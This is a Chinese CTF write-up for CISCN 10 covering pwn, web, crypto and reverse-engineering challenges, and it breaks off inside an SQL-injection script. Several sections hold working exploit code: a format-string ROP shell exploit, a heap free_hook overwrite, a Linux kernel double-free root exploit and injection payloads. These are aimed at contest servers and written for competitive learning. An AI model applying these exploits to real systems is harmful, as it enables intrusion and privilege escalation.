


# CISCN 10 Writeup by NeSEJunior

平心而论，这次的部分题目出的水平还是可以的。

[签到](#签到)
[PHP Exercise](#php-exercise)
[Not format](#not-format)
[easyheap](#easyheap)
[填数游戏](#填数游戏)
[Wanna to see your hat](#wanna-to-see-your-hat)
[传感器1,2](#传感器1,2)
[Partial](#partial)
[Mailbox](#mailbox)
[Classical](#classical)
[BabyDriver](#babydriver)
[GadgetZan](#gadgetzan)
[APKCrack](#apkcrack)
[flag vending machine](#flag-vending-machine)
[GuestBook](#guestbook)
[embarrass](#embarrass)
[方舟计划](#方舟计划)

## 签到

关注公众号，做对八道题就可以

flag{Ea3y_l4w_Kn0w1edg3}

## PHP Exercise

看起来是一个任意eval的功能

列目录：
```php
$dir = @ dir(".");
while (($file = $dir->read()) !== false)
{
  echo "file: " . $file . "<br />";
}
$dir->close();
```

```
OUTCOME:  file: index.php
file: tmp.php
file: .
file: flag_62cfc2dc115277d0c04ed0f74e48e3e9.php
file: ..
file: css
file: js
```

尝试直接读取flag_62cfc2dc115277d0c04ed0f74e48e3e9.php，失败，通过phpinfo();发现一堆文件函数被禁用

尝试include("flag_62cfc2dc115277d0c04ed0f74e48e3e9.php");echo $flag;
得flag

flag{php_mail_ld_preload} 

从flag看似乎我的思路和官方思路不一样啊。。。

## Not format

64位 静态编译 strip 有格式化字符串漏洞

libc 2.24 cannot overwrite vtable on struct _IO_FILE

是EasiestPrintf的翻版，参考以前的exp，并解决一些独有的困难。如，这道题是静态链接，没有导入system函数，所以要构造一个ROP。修改malloc_hook并使用%[x]s就可以调用malloc(x+c)，所以要找到一个通过函数以及控制的第一个参数就可以拿到ROP的方法。使用4b9568 gadget就可以实现这一点，第一个参数是ROP发射地址。

只有一次机会，所以用双字节写，来写ROP需要的内存布局。ROP需要初始写一共是3个地址，加上malloc_hook共4个地址，8次写。构造一个格式化字符串在256个字符内实现这8次写。

```python
#!/usr/bin/python -i

from pwn import *
'''
Strategy:
'''

malloc_hook = 0x6cb788
free_hook = 0x6cd5e8
g1 = 0x4004f5
g2 = 0x400b68
main = 0x400b6a
pop_rdi = 0x4005d5
pop_rsi = 0x4017f7
pop_rdx = 0x442c46
pop_rax = 0x4c2358
xchg_eax_edi = 0x409eb5
syscall = 0x4683d5
gets = 0x400aee
magic = 0x4b95d8
add_rsp_d8 = 0x40f956

# 0x00000000004004f5 : pop rbx ; pop rbp ; pop r12 ; ret
# 0x0000000000400b68 : leave ; ret


def writep(p, pref=0, mid='', maxlen=-1):
    if maxlen == -1:
        maxlen = 256 - 8 * (len(p))
    ret = ''
    last_char = pref
    for cur_char in range(pref, 65536 + pref):
        for j in range(len(p)):
            if (p[j][1] - cur_char) % 65536 == 0:
                if not last_char == cur_char:
                    ret += '%1$' + str((cur_char - last_char) % 65536) + 'c'
                    last_char = cur_char
                ret += '%' + str(6 + maxlen / 8 + j) + '$hn'
    ret += mid
    print repr(ret)
    assert len(ret) <= maxlen
    ret += cyclic(maxlen - pref - len(ret))
    for i in range(len(p)):
        ret += p64(p[i][0])
    return ret


new_stack = 0x6ce840

fmtstr = ''
fmtstr1 = fmtstr + writep([
    (malloc_hook, magic & 0xffff),
    (malloc_hook + 2, (magic >> 16) & 0xffff),
    (new_stack, (pop_rdi) & 0xffff),
    (new_stack + 2, (pop_rdi >> 16) & 0xffff),
    (new_stack + 8, (new_stack + 0x18) & 0xffff),
    (new_stack + 10, (new_stack >> 16) & 0xffff),
    (new_stack + 16, (gets) & 0xffff),
    (new_stack + 18, (gets >> 16) & 0xffff),
], len(fmtstr), '%37$' + str(new_stack - 0x20) + 's')
#fmtstr1 = fmtstr + writes(malloc_hook, p32(main), len(fmtstr), 'aq%21$d%37$99999s',64)

#r = remote('127.0.0.1', 2323)
r = remote('123.59.71.3', 20020)
raw_input('continue ->')
r.send(fmtstr1.ljust(256))
raw_input('continue ->')
flag = new_stack + 0x18 + 0xd0


rop = ''
rop += p64(pop_rdi)
rop += p64(flag)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(pop_rdx)
rop += p64(0)
rop += p64(pop_rax)
rop += p64(59)
rop += p64(syscall)
"""
rop += p64(pop_rdi)
rop += p64(flag)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(pop_rdx)
rop += p64(0)
rop += p64(pop_rax)
rop += p64(2)
rop += p64(syscall)

rop += p64(xchg_eax_edi)
rop += p64(pop_rsi)
rop += p64(flag+0x10)
rop += p64(pop_rdx)
rop += p64(0x100)
rop += p64(pop_rax)
rop += p64(0)
rop += p64(syscall)

rop += p64(pop_rdi)
rop += p64(1)
rop += p64(pop_rax)
rop += p64(1)
rop += p64(syscall)

"""
rop = rop.ljust(0xd0) + '/bin/sh\0'
r.sendline(rop)

r.interactive()
```
flag{e942f154ef9d9974366551d2d231d936}

## easyheap


edit can arbitrary overflow heap

no 0 termination on reading string

overwrite the 0x10 struct to form an arbitrary write

leak libc address and write free_hook

```python
#!/usr/bin/python -i

from pwn import *

Local = False#True

if Local:
    host = '127.0.0.1'
    port = 2323
    main_arena_offset = 0x3c4b20
    free_hook_offset = 0x3c67a8
    system_offset = 0x45390
else:
    host = '120.132.66.76'
    port = 20010
    main_arena_offset = 0x3c4b20
    free_hook_offset = 0x3c67a8
    system_offset = 0x45390

libc_leaked_offset = main_arena_offset + 88


def add_note(size, buf=''):
    p = '1\n'
    p += str(size) + '\n'
    p += buf
    assert len(buf) <= size
    if len(buf) != size:
        p += '\n'
    return p


def edit_note(iid, size, buf=''):
    p = '2\n'
    p += str(iid) + '\n'
    p += str(size) + '\n'
    p += buf
    assert len(buf) <= size
    if len(buf) != size:
        p += '\n'
    return p


def list_note():
    return '3\n'


def remove_note(iid):
    p = '4\n'
    p += str(iid) + '\n'
    return p


p = ''
p += add_note(0x100)
p += add_note(0x40)
p += remove_note(1)
p += remove_note(0)
p += add_note(0x100)
p += list_note()

r = remote(host, port)
raw_input('continue ->')
r.send(p)
r.recvuntil('Choice:id:0,size:256,content:')
libc_addr = int(r.recvuntil('\n1.Create')[:-9][::-1].encode('hex'),
                16) - libc_leaked_offset

print 'libc addr:', hex(libc_addr)

p = ''
p += remove_note(0)
p += add_note(0x10, "/bin/sh")
p += add_note(0x10)
p += add_note(0x10)
hp = ''
hp += cyclic(32)
hp += p64(0)
hp += p64(libc_addr + free_hook_offset)
p += edit_note(1, 0x30, hp)
p += edit_note(2, 0x9, p64(libc_addr + system_offset))
p += remove_note(0)
r.send(p)

r.interactive()
```
flag{cc98347cb5c43c654864e49a0637c24f}

## 填数游戏

类Sudu的结构
```
struct Sudu {
int num[9][9];
}
```

`Sudu::set_sudu`


`Sudu::Set_number`


程序首先初始化Sudu的内容，然后要求输入字符串以完成数独游戏，如果字符串有0代表这一格不填。初始内容为：
```
0 0 7 5 0 0 0 6 0 
0 2 0 0 1 0 0 0 7 
9 0 0 0 3 0 4 0 0 
2 0 1 0 0 0 0 0 0 
0 3 0 1 0 0 0 0 5 
0 0 0 0 0 0 7 1 0 
4 0 0 0 0 8 2 0 0 
0 0 5 9 0 0 0 8 0 
0 8 0 0 0 1 0 0 3 
```
0是需要填的

直接扔求解器http://shudu.admaimai.com/，答案似乎不唯一，但我点“计算区块唯一”再求解，得到的结果正好是flag

flag{340089102508406930016207058060875349709064820854392006093650071170023604602740590}

## Wanna to see your hat

出绿帽的地方会出现
```
select count(*) from t_info where username = 'aaaaa' or nickname = 'aaaaa'
```
同时扫描可以扫到.svn

下载.svn/wc.db，可以读到源码地址：https://github.com/zhl2008/2017_web_2

其实也是提示了select，长度限制11，有addslash，所以可以注入

`or/**/1=1#'`

flag{good_job_white_hat}

## 传感器1,2

试！

```python
#!/usr/bin/python -i

a = '3EAAAAA56A69AA55A95995A569AA95565556'

b = '3EAAAAA56A69AA556A965A5999596AA95656'

print 'bin(0x8893CA58):'
print bin(0x8893CA58)
d = {'5': '00', '6': '01', '9': '10', 'A': '11'}

a1 = ''.join(d[i] for i in a[2:])
a2 = ''.join(d[i][::-1] for i in a[2:])
print 'a1:'
print a1
print 'a2:'
print a2


def inv(s):
    return ''.join('0' if i == '1' else '1' for i in s)


def integral1(s):
    return ''.join([str(s[:i].count('1') % 2) for i in range(len(s))])


def differentiate(s):
    return ''.join(
        ['1' if s[i] == s[i + 1] else '0' for i in range(len(s) - 1)])


'''
print integral1(a1)
print integral1(a2)
print integral1(inv(a1))
print integral1(inv(a2))
print differentiate(a1)
print differentiate(a2)
print differentiate(inv(a1))
print differentiate(inv(a2))
'''


def decode(s):
    a = ''.join(d[i] for i in s[2:])
    return int(inv(differentiate(a)), 2)


print hex(decode(a))
print hex(decode(b))


class crc8:
    def __init__(self):
        self.crcTable = (
            0x00, 0x07, 0x0e, 0x09, 0x1c, 0x1b, 0x12, 0x15, 0x38, 0x3f, 0x36,
            0x31, 0x24, 0x23, 0x2a, 0x2d, 0x70, 0x77, 0x7e, 0x79, 0x6c, 0x6b,
            0x62, 0x65, 0x48, 0x4f, 0x46, 0x41, 0x54, 0x53, 0x5a, 0x5d, 0xe0,
            0xe7, 0xee, 0xe9, 0xfc, 0xfb, 0xf2, 0xf5, 0xd8, 0xdf, 0xd6, 0xd1,
            0xc4, 0xc3, 0xca, 0xcd, 0x90, 0x97, 0x9e, 0x99, 0x8c, 0x8b, 0x82,
            0x85, 0xa8, 0xaf, 0xa6, 0xa1, 0xb4, 0xb3, 0xba, 0xbd, 0xc7, 0xc0,
            0xc9, 0xce, 0xdb, 0xdc, 0xd5, 0xd2, 0xff, 0xf8, 0xf1, 0xf6, 0xe3,
            0xe4, 0xed, 0xea, 0xb7, 0xb0, 0xb9, 0xbe, 0xab, 0xac, 0xa5, 0xa2,
            0x8f, 0x88, 0x81, 0x86, 0x93, 0x94, 0x9d, 0x9a, 0x27, 0x20, 0x29,
            0x2e, 0x3b, 0x3c, 0x35, 0x32, 0x1f, 0x18, 0x11, 0x16, 0x03, 0x04,
            0x0d, 0x0a, 0x57, 0x50, 0x59, 0x5e, 0x4b, 0x4c, 0x45, 0x42, 0x6f,
            0x68, 0x61, 0x66, 0x73, 0x74, 0x7d, 0x7a, 0x89, 0x8e, 0x87, 0x80,
            0x95, 0x92, 0x9b, 0x9c, 0xb1, 0xb6, 0xbf, 0xb8, 0xad, 0xaa, 0xa3,
            0xa4, 0xf9, 0xfe, 0xf7, 0xf0, 0xe5, 0xe2, 0xeb, 0xec, 0xc1, 0xc6,
            0xcf, 0xc8, 0xdd, 0xda, 0xd3, 0xd4, 0x69, 0x6e, 0x67, 0x60, 0x75,
            0x72, 0x7b, 0x7c, 0x51, 0x56, 0x5f, 0x58, 0x4d, 0x4a, 0x43, 0x44,
            0x19, 0x1e, 0x17, 0x10, 0x05, 0x02, 0x0b, 0x0c, 0x21, 0x26, 0x2f,
            0x28, 0x3d, 0x3a, 0x33, 0x34, 0x4e, 0x49, 0x40, 0x47, 0x52, 0x55,
            0x5c, 0x5b, 0x76, 0x71, 0x78, 0x7f, 0x6a, 0x6d, 0x64, 0x63, 0x3e,
            0x39, 0x30, 0x37, 0x22, 0x25, 0x2c, 0x2b, 0x06, 0x01, 0x08, 0x0f,
            0x1a, 0x1d, 0x14, 0x13, 0xae, 0xa9, 0xa0, 0xa7, 0xb2, 0xb5, 0xbc,
            0xbb, 0x96, 0x91, 0x98, 0x9f, 0x8a, 0x8d, 0x84, 0x83, 0xde, 0xd9,
            0xd0, 0xd7, 0xc2, 0xc5, 0xcc, 0xcb, 0xe6, 0xe1, 0xe8, 0xef, 0xfa,
            0xfd, 0xf4, 0xf3)

    def crc(self, msg):
        runningCRC = 0
        for c in msg:
            #c = ord(str(c))
            runningCRC = self.crcByte(runningCRC, c)
        return runningCRC

    def crcByte(self, oldCrc, byte):
        res = self.crcTable[(oldCrc & 0xFF) ^ (byte & 0xFF)]
        return res


def testf1(n):
    return (sum(((n >> (i * 8)) & 0xff)
                for i in range(1, 6)) - (n & 0xff)) & 0xff


def tobytes(s):
    d = decode(s)
    return [((d >> (i * 8)) & 0xff) for i in range(5, -1, -1)]


c8 = crc8()
correct = c8.crc(tobytes(a))
print c8.crc(tobytes(a))
print c8.crc(tobytes(b))


def fake_chksum(x):
    l = tobytes(a)
    l[:4] = [((x >> (i * 8)) & 0xff) for i in range(3, -1, -1)]
    for i in range(256):
        l[5] = i
        if c8.crc(l) == correct:
            return i


print fake_chksum(0x8893CA58)
print fake_chksum(0xDEADBEEF)
print fake_chksum(0xBAADA555)
```
(1)flag{8845ABF3} 大写hex

(2)flag{B515}


## Partial

N and high bits of q known

coppersmith attack 用以前的脚本跑一下就行了啊

https://github.com/mimoo/RSA-and-LLL-attacks/blob/master/coppersmith.sage

flag{4_5ing1e_R00T_cAn_chang3_eVeryth1ng}

## Mailbox

trivial

只需要构造一个信息与目标信息在模p-1的意义相同就好了。

绝对是夜间放题加成，不然一堆大佬早就秒了
```
#!/usr/bin/python -i

from pwn import *
from hashlib import sha1
import string
import ast
import os


def sign(m, sk, pk, p, g):
    while True:
        k = getRandomRange(1, p - 1)
        if number.GCD(k, p - 1) == 1:
            break
    r = pow(g, k, p)
    s = (m - sk * r) % (p - 1)
    while s < 0:
        s += (p - 1)
    s = (s * inverse(k, p - 1)) % (p - 1)
    return r, s


def verify(m, r, s, pk, p, g):
    if r < 1: return False
    if (pow(pk, r, p) * pow(r, s, p)) % p == pow(g, m, p):
        return True
    return False


def digitalize(m):
    return int(m.encode('hex'), 16)


#r = remote('127.0.0.1', 40122)
r = remote('106.75.66.195', 40001)
print r.recvuntil('starting with ')
prefix = r.recvuntil('\n')[:-1]


def f(x):
    return sha1(prefix + x).digest()[-2:] == '\0\0'


s = util.iters.mbruteforce(f, string.ascii_letters + string.digits, 5, 'fixed')

test = prefix + s

assert len(test) == 21

r.send(test)

print r.recvuntil('Current PK we are using: ')
pubkey = ast.literal_eval(r.recvuntil(']'))
print pubkey

p = pubkey[0]
g = pubkey[1]
pk = pubkey[2]

target = "Th3_bery_un1que1i_ChArmIng_G3nji" + test

victim = hex(
    ((digitalize('test' + os.urandom(24)) << 560) // (p - 1) * (p - 1) +
     (digitalize(target) % p))).strip('L').strip('0x').decode('hex')

while '\n' in victim:
    victim = hex(
        ((digitalize('test' + os.urandom(24)) << 560) // (p - 1) * (p - 1) +
         (digitalize(target) % p))).strip('L').strip('0x').decode('hex')

assert victim.startswith('test')
assert digitalize(victim) % (p - 1) == digitalize(target) % (p - 1)

r.sendline(victim)
print r.recvuntil('Your signature is')
sig = ast.literal_eval(r.recvuntil('\n'))

sig = [int(sig[0], 0), int(sig[1], 0)]

assert verify(digitalize(victim), sig[0], sig[1], pk, p, g)
assert verify(digitalize(target), sig[0], sig[1], pk, p, g)

r.sendline(target)
r.sendline(str(sig[0]) + "," + str(sig[1]))

r.interactive()
```

# Classical

感觉这道题是最难的一道密码了，队友给出这个题的原型才有思路的。

bruteforce cannot win

子集和问题 SUBSET-SUM is NP Complete

OK OK the problem itself is NP-complete :/

Merkle–Hellman knapsack cryptosystem

参考15年PCTF的一个writeup来写利用。

http://ieeexplore.ieee.org/document/4568386/

**http://gnoobz.com/plaid-ctf-2015-lazy-writeup.html**

Sage:
```python
with open('enc', 'r') as f:
    enc = int(f.read())

with open('key.pub', 'r') as f:
    key = [int(i)for i in f.read().strip().strip('[').strip(']').strip('L').split('L, ')]
n=len(key)

Adict={}

for i in range(n):
    Adict[(i,0)]=key[i]
    Adict[(i,i+1)]=1
Adict[(n,0)]=-enc

A=Matrix(ZZ,n+1,n+1,Adict,sparse=False)

lll=A.LLL()

print lll[-1]
```
flag{M3k13_he11M4N_1ik3s_1Att1ce}

## BabyDriver

When you close twice, you free twice.

Double free.

Exploiting method: 

https://pastebin.com/JdbSJmWm

```C
#include <cstdio>
#include <cstdlib>
#include <cstring>
#include <algorithm>
#include <errno.h>
#include <limits.h>
#include <ctype.h>
#include <malloc.h>
#include <unistd.h>
#include <sys/mman.h>

// open
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

//ioctl
#include <sys/ioctl.h>


#define eprintf(format, ...) fprintf(stderr, "\x1b[32m[%s:%d] [%s]\x1b[m\n" format, __FILE__, __LINE__, __PRETTY_FUNCTION__, ##__VA_ARGS__)

#define ewatchi(EXPR) eprintf( #EXPR " = %ld\n", (long)EXPR );

static int h2b ( char c )
{
    if ( c >= '0' && c <= '9' )
    {
        return c - '0';
    }
    if ( c >= 'a' )
    {
        c -= ( 'a' - 'A' );
    }
    return c - 'A' + 10;
}

static bool hex2bin ( char* s )
{
    char* i = s, *j = s;
    int v1 = -1;
    while ( *j )
    {
        if ( isxdigit ( *j ) )
        {
            if ( v1 == -1 )
            {
                v1 = h2b ( *j );
            }
            else
            {
                *i = ( v1 << 4 ) + h2b ( *j );
                i++;
                v1 = -1;
            }
        }
        j++;
    }
    return v1 == -1;
}

void putchar_escaped ( int chr )
{
    if ( chr == 0 )
    {
        printf ( "\x1b[1;30m.\x1b[21;39m" );
    }
    else if ( chr < 32 || chr > 126 )
    {
        printf ( "\x1b[1;33m.\x1b[21;39m" );
    }
    else
    {
        putchar ( chr );
    }
}

void putchex_escaped ( int chr )
{
    chr = chr & 0xff;
    if ( chr == 0 )
    {
        printf ( "\x1b[1;30m%02x \x1b[21;39m", chr );
    }
    else if ( chr < 32 || chr > 126 )
    {
        printf ( "\x1b[1;33m%02x \x1b[21;39m", chr );
    }
    else
    {
        printf ( "%02x ", chr );
    }
}

void hexdump ( char* buf, int len )
{
    if ( !buf || len <= 0 )
    {
        return;
    }
    for ( int i = 0, s = len / 16; i < s; i++ )
    {
        printf ( "%07x0 | ", i );
        for ( int j = 0; j < 16; j++ )
        {
            putchex_escaped ( buf[i * 16 + j] & 0xff );
        }
        printf ( "|" );
        for ( int j = 0; j < 16; j++ )
        {
            putchar_escaped ( buf[i * 16 + j] & 0xff );
        }
        printf ( "|\n" );
    }
    int final_max = len % 16;
    if ( final_max )
    {
        int i = len / 16;
        printf ( "%07x0 | ", i );
        for ( int j = 0; j < 16; j++ )
        {
            if ( i * 16 + j >= len )
            {
                printf ( "   " );
            }
            else
            {
                putchex_escaped ( buf[i * 16 + j] & 0xff );
            }
        }
        printf ( "|" );
        for ( int j = 0; j < 16; j++ )
        {
            if ( i * 16 + j >= len )
            {
                break;
            }
            else
            {
                putchar_escaped ( buf[i * 16 + j] & 0xff );
            }
        }
        printf ( "|\n" );
    }
    else
    {
        putchar ( 10 );
    }
}

int dopen()
{
    return open ( "/dev/babydev", O_RDWR );
}

void dresize ( int fd, int size )
{
    long ret = ( long ) ioctl ( fd, 65537, size );
    if ( ret < 0 )
    {
        eprintf ( "ioctl failed\n" );
        perror ( "ioctl" );
    }
    fflush ( stdout );
    fflush ( stderr );
}

static const char* const exec_filename = "/bin/sh";
static const char* const exec_argv[] = {exec_filename, NULL};
static const char* const exec_envp[] = {NULL};

size_t stack[0x10000];
size_t stack_end;

void shell()
{
    if ( getuid() )
    {
        eprintf ( "Not root! Exploit failed.\n" );
        exit ( -1 );
    }
    execve ( exec_filename, ( char** ) exec_argv, ( char** ) exec_envp );
}

long pop_rdi_ret = 0xffffffff810d238d;
long mov_cr4_rdi = 0xffffffff810635b0;
long xchg_eax_esp = 0xffffffff8100008a;

void root_shell()
{
    asm ( "mov $stack+0x80000, %rsp" );
    long ( *prepare_kernel_cred ) ( int );
    void ( *commit_creds ) ( long );
    prepare_kernel_cred = ( long ( * ) ( int ) ) ( 0xffffffff810a1810 );
    commit_creds = ( void ( * ) ( long ) ) ( 0xffffffff810a1420 );
    commit_creds ( prepare_kernel_cred ( 0 ) );
    asm ( "swapgs\n"
        );
    shell();
}

int main()
{
    int fd[8];
    int ret;
    char buffer[1024];
    long buf[16];
    buf[12] = xchg_eax_esp;
    mmap ( ( void* ) ( 0x81000000 - 0x4000 ), 0x6000, 7, MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS, -1, 0 );
    long* rop_stack = ( long* ) ( unsigned int ) xchg_eax_esp;
    rop_stack[0] = pop_rdi_ret;
    rop_stack[1] = 0x6b0;
    rop_stack[2] = mov_cr4_rdi;
    rop_stack[3] = ( long ) root_shell;
    for ( int i = 0; i < 8; i++ )
    {
        fd[i] = dopen();
        eprintf ( "fd %d: %d\n", i, fd[i] );
    }
    dresize ( fd[0], 1024 );
    memset ( buffer, 'A', sizeof ( buffer ) );
    ret = write ( fd[7], buffer, 512 );
    perror ( "write" );
    eprintf ( "write returned %d\n", ret );
    close ( fd[0] );
    eprintf ( "first\n" );
    eprintf ( "read returned %ld\n", read ( fd[1], buffer, 1023 ) );
    hexdump ( buffer, 1023 );
    int ptmx = open ( "/dev/ptmx", O_RDWR | O_NOCTTY ); // kmalloc-1024
    eprintf ( "second\n" );
    eprintf ( "read returned %ld\n", read ( fd[1], buffer, 1023 ) );
    hexdump ( buffer, 1023 );
    for ( int i = 2; i < 1024 / 8; i++ )
    {
        unsigned long* v = ( ( unsigned long* ) buffer ) + i;
        if ( *v > 0xffffffff80000000 && *v < 0xffffffff82000000 )
        {
            *v = ( unsigned long ) buf;
        }
    }
    //eprintf ( "Press Enter to continue ->" );
    //getchar();
    ret = write ( fd[2], buffer, 1023 );
    perror ( "write" );
    eprintf ( "write returned %d\n", ret );
    eprintf ( "third\n" );
    eprintf ( "read returned %ld\n", read ( fd[1], buffer, 1023 ) );
    hexdump ( buffer, 1023 );
    ioctl ( ptmx, 0x12345678, ( void* ) 0xbaadbaad );
    close ( ptmx );
    return 0;
}
```

flag{Th15_1s_3asi3st_k3rn3l_UAF}

## GadgetZan

flag长16

libc静态编译+strip

block crypto + matrix xor multiplication

xor multiplication part: the string that need to be sent in function2(0x804a5a0) is trivially solvable:
```
[202L,
 211L,
 229L,
 67L,
 242L,
 60L,
 63L,
 236L,
 51L,
 169L,
 63L,
 149L,
 221L,
 140L,
 76L,
 42L]
 ```

块密码部分是一堆乱七八糟（可以逆）的操作+一个字节码解释器函数80495c0,这个字节码解释器是密码的一部分。

字节码解释器可以黑盒通过猜测的方法来逆；其他部分直接逆。

块密码的全部算法+解密算法如下：

```python
#!/usr/bin/python -i

with open('Gadgetzan', 'rb') as f:
    raw = f.read()


def to_int(s, b):
    l = len(s) // b
    return [
        int(s[i * b:(i + 1) * b][::-1].encode('hex'), 16) for i in range(l)
    ]


perm = to_int(raw[0x75e60:0x75e60 + 256], 1)

mres = to_int(raw[0x75c40:0x75c40 + 32], 2)

mcoef = to_int(raw[0x75c60:0x75c60 + 256 * 2], 2)

with open('ekey.bin', 'rb') as f:
    ekey = f.read()

ek = [ekey[i * 16:(i + 1) * 16] for i in range(15)]


def transpose(s):
    return ''.join([s[j * 4 + i] for i in range(4) for j in range(4)])


def block_xor(s1, s2):
    s2 = transpose(s2)
    return ''.join([chr(ord(s1[i]) ^ ord(s2[i])) for i in range(16)])


def f1f(i):
    return perm[((i & 0xf) << 4) | (i >> 4)]


#0x8049e50
def f1(s):
    return ''.join(chr(f1f(ord(i))) for i in s)


f1fperm = [f1f(i) for i in range(256)]


def g1(s):
    return ''.join(chr(f1fperm.index(ord(i))) for i in s)


assert g1(f1(ek[0])) == ek[0]
assert f1(g1(ek[1])) == ek[1]


#0x8049dc0
def f2(s):
    return s[0:4] + s[5:8] + s[4] + s[10:12] + s[8:10] + s[15] + s[12:15]


def g2(s):
    return s[0:4] + s[7] + s[4:7] + s[10:12] + s[8:10] + s[13:16] + s[12]


assert g2(f2(ek[0])) == ek[0]
assert f2(g2(ek[1])) == ek[1]


def f5f(x, y):
    a = 0
    for i in range(8):
        if (x >> i) & 1:
            a ^= y
        y = (y << 1)
        if y & 0x100:
            y ^= 0x11b
    return a


def f5finv(y):
    for i in range(256):
        if f5f(i, y) == 1:
            return i


def f5fdiv(z, y):
    return f5f(z, f5finv(y))


assert f5fdiv(f5f(23, 45), 23) == 45


def f5(s):
    key = chr(13) + chr(14) + chr(15) + chr(13)
    assert len(s) == 4
    res_buf = [0] * 4
    for i in range(4):
        ki = ord(key[i])
        for j in range(4):
            kj = ord(s[j])
            res_buf[(i + j) % 4] ^= f5f(ki, kj)
    return ''.join(chr(i) for i in res_buf)


"""
Here is the mathematic part:
    (use sage)

MOD_POL = [1,1,0,1,1,0,0,0,1]

# sage part begin

K.<x> = GF(2**8, modulus=MOD_POL)

def i2f(i):
    return sum((i>>j)*x^j for j in range(8))

def f2i(f):
    l=list(f.polynomial())+[0]*8
    return sum([int(l[i])<<i for i in range(8)])

assert f2i(i2f(13))==13

A=[
    13,13,15,14,
    14,13,13,15,
    15,14,13,13,
    13,15,14,13,
]

A=[i2f(i)for i in A]

A=Matrix(K,4,4,A)

A=A.inverse()

mat=[[f2i(A[i][j]) for j in range(4)]for i in range(4)]

"""


def g5(s):
    key = chr(7) + chr(1) + chr(5) + chr(2)
    assert len(s) == 4
    res_buf = [0] * 4
    for i in range(4):
        ki = ord(key[i])
        for j in range(4):
            kj = ord(s[j])
            res_buf[(i + j) % 4] ^= f5f(ki, kj)
    return ''.join(chr(i) for i in res_buf)


#0x8049d00
def f3(s):
    s = transpose(s)
    s = ''.join(f5(s[i * 4:(i + 1) * 4]) for i in range(4))
    s = transpose(s)
    return s


def g3(s):
    s = transpose(s)
    s = ''.join(g5(s[i * 4:(i + 1) * 4]) for i in range(4))
    s = transpose(s)
    return s


assert g3(f3(ek[0])) == ek[0]
assert f3(g3(ek[1])) == ek[1]


#0x80495c0
def f4(s):
    # the vm, what the fxxk
    xorkey = '147d1e76036d1c75696368756e716900'
    buf = [int(xorkey[i * 2:(i + 1) * 2], 16) for i in range(16)]
    a = 0
    for i in range(16):
        a ^= ord(s[15 - i])
        buf[15 - i] ^= a
    return ''.join(chr(buf[i]) for i in range(16))


def g4(s):
    xorkey = '147d1e76036d1c75696368756e716900'
    buf = [int(xorkey[i * 2:(i + 1) * 2], 16) ^ ord(s[i]) for i in range(16)]
    a = 0
    for i in range(15):
        buf[i] ^= buf[i + 1]
    return ''.join(chr(buf[i]) for i in range(16))


assert g4(f4(ek[0])) == ek[0]
assert f4(g4(ek[1])) == ek[1]


#0x804a1a0
def enc(s):
    assert len(s) == 16
    t = transpose(s)
    t = block_xor(t, ek[0])
    for i in range(1, 14):
        t = f1(t)
        t = f2(t)
        t = f3(t)
        t = block_xor(t, ek[i])
        t = f4(t)
    t = f1(t)
    t = f2(t)
    t = block_xor(t, ek[14])
    return transpose(t)


def dec(s):
    assert len(s) == 16
    t = transpose(s)
    t = block_xor(t, ek[14])
    t = g2(t)
    t = g1(t)
    for i in range(13, 0, -1):
        t = g4(t)
        t = block_xor(t, ek[i])
        t = g3(t)
        t = g2(t)
        t = g1(t)
    t = block_xor(t, ek[0])
    return transpose(t)


ciphertext = [
    202L, 211L, 229L, 67L, 242L, 60L, 63L, 236L, 51L, 169L, 63L, 149L, 221L,
    140L, 76L, 42L
]
ciphertext = ''.join(chr(i) for i in ciphertext)

assert enc(dec(ciphertext)) == ciphertext
assert dec(enc(ciphertext)) == ciphertext

print dec(ciphertext)
```
最后还有一个扫二维码的步骤，结果是：

Congratulations! The flag is your input + "D4wn"

所以flag是flag{mo4a3Ov2r5qIYgF8D4wn}

## APKCrack

input ->native变换->java层check()校验 

想多了 。。。so里只新建了success 和failed两个字符串，传回了java。 

所以逆check就好了： 

input ->native变换->java层check()校验 

check的逻辑有点类似于控制流混淆，更像是一个简单的解释器，特定的字符代表特定的读写操作。。用一个数组保存指令序列，之后每次执行一个代码片段。

按照这个解释器的语法，这段代码大致是这个意思：
```
v0=108 
empty[1]=v0; 
v0=111 
empty[2]=v0; 
v0=53 
.....
empty[3]=53 
empty[4]=101; 
empty[5]=114; 
empty[6]=0 
```
之后逐一比较输入和empty，大于或小于都将return false，因此这个empty数组就是最终的flag

## flag vending machine

偶尔会出现负的balance

允许`buy.php?id=1e-0000`这种参数

竞争？

username可以注入，通过用户名的账户

```python
import requests
import re


cookies = {"PHPSESSID": "p8nhkhgab6g9dqt2bmk3f3p3b2"}
host = "http://106.75.107.53:8888/"
url1 = host + "register.php"
url2 = host + "login.php"
url3 = host + "buy.php?id=1"
flag = ""
str = ",_\{\}gsctfqbwe1234567890ryuioplkjhdazxvnmQWERTYUIOPLKJHGFDSAZXCVBNM"
pos = 1
fg = 0
while True:
    if(fg != 0):
        break
    data = {'user': 'neseju', 'pass': '1'}
    try:
        r = requests.post(url=url2, data=data, cookies=cookies)
    except:
        pass
    num = int(re.search('you balance is ([-\d]*)', r.text).group(1))
    print num
    fg = 1
    for payload in range(32, 126):
